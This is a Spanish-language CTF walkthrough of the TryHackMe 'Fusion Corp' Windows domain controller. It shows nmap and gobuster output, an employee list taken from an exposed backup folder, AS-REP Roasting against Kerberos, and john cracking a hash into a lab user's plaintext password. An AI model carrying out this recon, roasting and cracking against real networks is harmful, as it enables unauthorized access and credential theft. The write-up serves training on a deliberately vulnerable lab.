 ## TryHackMe  <> Fusion Corp

![image](https://github.com/Esevka/CTF/assets/139042999/f7bc6056-a728-4c36-a28e-2e1afd730143)

Enlace Maquina: https://tryhackme.com/room/fusioncorp

Enunciado : 

  - Segun el Enunciado se ha parcheado todo lo informado anteriormente y podemos volver a realizar las pruebas.
  - Conseguir 3 Flags
---
---

## Escaneo de puertos NMAP

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# nmap -p- -open -sS --min-rate 5000 -n -Pn -vvv 10.10.183.217 -oG open_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 08:16 CEST
    
    PORT      STATE SERVICE          REASON
    53/tcp    open  domain           syn-ack ttl 127
    80/tcp    open  http             syn-ack ttl 127
    88/tcp    open  kerberos-sec     syn-ack ttl 127
    135/tcp   open  msrpc            syn-ack ttl 127
    139/tcp   open  netbios-ssn      syn-ack ttl 127
    389/tcp   open  ldap             syn-ack ttl 127
    445/tcp   open  microsoft-ds     syn-ack ttl 127
    464/tcp   open  kpasswd5         syn-ack ttl 127
    593/tcp   open  http-rpc-epmap   syn-ack ttl 127
    636/tcp   open  ldapssl          syn-ack ttl 127
    3268/tcp  open  globalcatLDAP    syn-ack ttl 127
    3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
    3389/tcp  open  ms-wbt-server    syn-ack ttl 127
    5985/tcp  open  wsman            syn-ack ttl 127
    9389/tcp  open  adws             syn-ack ttl 127
    49666/tcp open  unknown          syn-ack ttl 127
    49668/tcp open  unknown          syn-ack ttl 127
    49669/tcp open  unknown          syn-ack ttl 127
    49670/tcp open  unknown          syn-ack ttl 127
    49673/tcp open  unknown          syn-ack ttl 127
    49689/tcp open  unknown          syn-ack ttl 127
    49700/tcp open  unknown          syn-ack ttl 127

-Captura exportado en formato grepable,por lo que vamos a extraer los puertos para lanzarles unos scripts basicos de reconocimiento.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# list_port open_ports 
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49669,49670,49673,49689,49700

Ya tenemos los puertos copiado en el Clipboard, un script simple pero de gran ayuda. Script-->  https://github.com/Esevka/CTF/tree/main/Bash

-Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49669,49670,49673,49689,49700 -sCV -n -Pn 10.10.183.217 -oN info_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 08:18 CEST
    Nmap scan report for 10.10.183.217
    Host is up (0.063s latency).
    
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    
    80/tcp    open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: eBusiness Bootstrap Template
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 06:18:39Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
    | Not valid before: 2023-10-13T06:12:01
    |_Not valid after:  2024-04-13T06:12:01
    | rdp-ntlm-info: 
    |   Target_Name: FUSION
    |   NetBIOS_Domain_Name: FUSION
    |   NetBIOS_Computer_Name: FUSION-DC
    |   DNS_Domain_Name: fusion.corp
    |   DNS_Computer_Name: Fusion-DC.fusion.corp
    |   Product_Version: 10.0.17763
    |_  System_Time: 2023-10-14T06:19:29+00:00
    |_ssl-date: 2023-10-14T06:20:08+00:00; 0s from scanner time.
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp  open  mc-nmf        .NET Message Framing
    49666/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49673/tcp open  msrpc         Microsoft Windows RPC
    49689/tcp open  msrpc         Microsoft Windows RPC
    49700/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

## Analizamos la informacion obtenida sobre los puertos

--Puerto 80 (HTTP)

  - Despues de analizar la web y ver su codigo no encontramos nada, vamos a ver si encontramos directorios con gobuster.
  
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
        └─# gobuster dir -u http://10.10.183.217 -w /usr/share/wordlists/dirb/common.txt 
        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        
        /backup               (Status: 301) [Size: 151] [--> http://10.10.183.217/backup/]
        /css                  (Status: 301) [Size: 148] [--> http://10.10.183.217/css/]
        /img                  (Status: 301) [Size: 148] [--> http://10.10.183.217/img/]
        /index.html           (Status: 200) [Size: 53888]
        /js                   (Status: 301) [Size: 147] [--> http://10.10.183.217/js/]
        /lib                  (Status: 301) [Size: 148] [--> http://10.10.183.217/lib/]
  
    - El directorio backup salta a la vista que es el primero en revisar, nos descargamos employees.ods a nuestra maquina.
      
      ![image](https://github.com/Esevka/CTF/assets/139042999/adc5b939-c80a-4023-8c73-df142db019db)

      ![image](https://github.com/Esevka/CTF/assets/139042999/51ba66dd-6231-4d32-9faa-e87e0e851bc0)

    - Si volvemos atras en la web encontramos una serie de personajes los cuales aparecen en la lista, por lo que parece ser que tenemos nombres de usuarios de empleados de la empresa incluso sabemos el  cargo que ejercen dentro de ella.

      ![image](https://github.com/Esevka/CTF/assets/139042999/bcc7641c-5073-498d-a392-8416c5d5a5a2)

--Puerto 88 (KERBEROS)

  Info de gran ayuda: [+]https://www.tarlogic.com/es/blog/como-funciona-kerberos/ [+]https://www.tarlogic.com/es/blog/como-atacar-kerberos/

  - Tenemos un listado de usuarios,por lo que vamos a probar con un ataque a kerberos llamado ASREPRoast(se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos)
  
    ![image](https://github.com/Esevka/CTF/assets/139042999/97787c44-b781-42b3-a475-78993c8bd668)

        Como Funciona la Preautenticacion
        La preautenticación demuestra que el usuario conoce su contraseña antes de recibir el ticket de autenticación.
        Timestamp en el ticket garantiza que el ticket sea válido solo durante un período de tiempo limitado y protege contra ataques de repetición. 
    
    Montamos todo:
    
    1)Creamos una lista con los usuarios que hemos encontrado.
    
    2)Editamos nuestro fichero /etc/hosts

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# cat /etc/hosts
        10.10.122.116   fusion.corp
        [IP Maquina]    [Dominio resolver]
    
    3)Montamos el comando y obtenemos hash del usuario lparker

      ![image](https://github.com/Esevka/CTF/assets/139042999/858ac63d-ad88-45ca-97ba-8c5c99ba2813)

    4)Intentamos crakear el hash del usuario lparker con john

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# john hashuser_NP --wordlist=/usr/share/wordlists/rockyou.txt 
        Using default input encoding: UTF-8
        Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
        Will run 3 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        !!abbylvzsvs2k6! ($krb5asrep$lparker@FUSION.CORP)     
        1g 0:00:00:02 DONE (2023-10-14 09:50) 0.4032g/s 991896p/s 991896c/s 991896C/s !ebabaloh..๙า๘ฌน++๘
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed.

      Conseguimos credenciales lparker:!!abbylvzsvs2k6!

    

  
        
        
              
    
    


